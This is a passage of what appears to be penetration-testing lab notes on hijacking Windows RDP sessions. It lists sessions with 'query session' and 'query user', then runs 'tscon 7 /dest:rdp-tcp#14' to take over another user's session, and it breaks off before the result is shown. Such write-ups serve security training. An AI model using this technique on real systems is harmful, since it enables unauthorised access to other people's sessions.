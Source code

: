 Let's do:

```
query session
```

![Pasted image 20250516150509.png](../../../IMAGES/Pasted%20image%2020250516150509.png)

We can notice the sessions, let's use:

```
query user
```

![Pasted image 20250516150619.png](../../../IMAGES/Pasted%20image%2020250516150619.png)

Now, we can steal any session, let's steal the last one:

```powershell
tscon 7 /dest:rdp-tcp#14
```

Once we do the command, we can see this:
